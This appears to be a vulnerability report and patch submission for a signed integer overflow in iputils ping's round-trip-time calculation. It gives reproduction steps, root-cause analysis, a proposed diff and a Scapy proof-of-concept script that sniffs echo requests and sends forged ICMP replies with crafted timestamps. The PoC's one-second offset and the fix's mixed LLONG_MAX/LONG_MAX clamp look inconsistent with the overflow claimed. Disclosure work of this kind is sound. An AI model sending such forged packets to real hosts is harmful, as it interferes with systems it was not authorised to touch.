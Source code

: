 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in GNU `ping`’s RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In production builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. Check out the `master` branch of iputils and build with ASan:

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Denable-sanitizers=true
   ninja
   ```
2. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
3. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
4. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```
5. Without sanitizers, observe `time=0.000 ms` on every reply despite real latency and truncated/duplicate replies.

## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv.tv_sec * 1000000 + tv.tv_usec;
```

Because `tv.tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:

```diff
--- a/ping_common.c
+++ b/ping_common.c
@@ gather_statistics() {
-    triptime = tv.tv_sec * 1000000 + tv.tv_usec;
+    __int128 delta = (__int128)tv.tv_sec * 1000000 + tv.tv_usec;
+    if (delta < 0) {
+        triptime = 0;
+    } else if (delta > LLONG_MAX) {
+        triptime = LONG_MAX;
+    } else {
+        triptime = (long)delta;
+    }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*20   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----
```
Signed-off-by: Mohamed Maatallah <hotelsmaatallahrecemail@gmail.com>
```
